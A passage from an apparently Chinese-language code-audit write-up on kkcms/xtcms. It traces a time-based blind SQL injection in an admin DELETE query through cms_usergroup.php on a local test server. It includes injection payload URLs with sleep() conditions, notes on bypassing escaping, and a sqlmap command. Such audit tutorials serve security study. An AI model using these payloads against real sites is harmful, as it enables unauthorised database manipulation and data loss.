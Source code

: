 ```plain
全局搜索submit调用，type类型为download的调用地方，在页面中应该是下载评论的地方，http://127.0.0.1:8087/index.php?r=software&cid=1
```

![1645229773096-89e661eb-c535-4ece-ab8b-7c4b04ff567c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132923712-386312594.png)

```plain
测试    http://127.0.0.1:8087/index.php?r=software&cid=1    cid的值
```

- 删除-delete-kkcms-延时盲注

```plain
DELETE FROM 表名称 WHERE 列名称 = 值
全局搜索delete 发现文件admin/model/usergroup.php
这个注入点是在后台的。
那么应该怎么样触发admin/model/usergroup.php呢
如果直接访问admin/moder/usergroup.php，那肯定是有问题的。
```

![1645234022246-19f44c58-e0dd-4437-822f-4d042329c76e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132923148-1170622541.png)

```plain
没有数据库报错函数，这时候只能采用延迟布尔注入
如果直接访问文件：
http://127.0.0.1:8099/admin/model/usergroup.php?del=2 and if(1=1,sleep(5),0)
结合SQL语句：delete from xtcms_user_group where ug_id = 2 and if(1=1,sleep(5),0)
```

![1645234625837-b20cf1b1-14a8-45fb-96bb-bb224a603aa6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132923113-1143980420.png)

```plain
可以看到页面执行没有延迟，修改一下注入语句delete from xtcms_user_group where ug_id = 2 or if(1=1,sleep(5),0)
放在数据库中执行
```

![1645235020120-d36adb1c-d988-4baa-a8b3-846733f9a903.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132923187-1488512731.png)

```plain
发现SQL执行延迟了。构造一下payload：http://127.0.0.1:8099/admin/model/usergroup.php?del=2 or if(1=1,sleep(5),0)
但是页面没有延迟。
```

![1645235243860-30025403-1c0e-4f8e-b3c2-420ba2e26888.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132923068-1991073663.png)

```plain
结合SQL监控插件，发现SQL语句根本没有执行。因为直接访问这个文件出了问题
结合包含文件查找，admin/cms_usergroup.php调用了admin/model/usergroup.php文件。
构造：127.0.0.1:8099/admin/cms_usergroup.php?del=2 or if(1=1,sleep(5),0)
```

![1645235764509-dd198ae6-cf37-459a-880f-26275e6e5c87.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132923150-1762589978.png)

```plain
里面还有转义，可以用宽字节或者ASCII码来进行注入。
可以用sqlmap去跑。用到数据包进行注入。（因为有cookie）
python310 sqlmap.py -r 1.txt
```
